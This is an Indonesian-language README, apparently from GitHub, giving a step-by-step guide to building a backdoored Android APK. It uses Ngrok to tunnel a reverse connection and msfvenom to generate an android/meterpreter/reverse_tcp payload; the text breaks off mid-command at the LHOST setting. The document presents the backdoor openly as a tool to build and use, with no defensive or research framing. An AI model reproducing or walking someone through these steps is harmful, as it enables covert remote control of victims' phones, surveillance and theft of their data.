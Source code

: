 # Backdoor-APK
Cara Membuat Backdoor Untuk Android Dengan Metaspolit Dan Ngrok
**1. Install Metasploit**

**2. Install Ngrok**

**3. Buat Akun Ngrok**

**4. Masukkan Token Ngrok**
<br> Masukkan Perintah :
<br> $./ngrok authtoken "Masukkan Token"

**5. Buat Port Ngrok**
<br> $./ngrok http 4455

**6. Melihat Status Ngrok**
<br> $ngrok tcp 4455 (port sesuai yang kita buat di awal)

**7. Jalankan Metasploit**
<br> $msfvenom -p android/meterpreter/reverse_tcp LHOST=
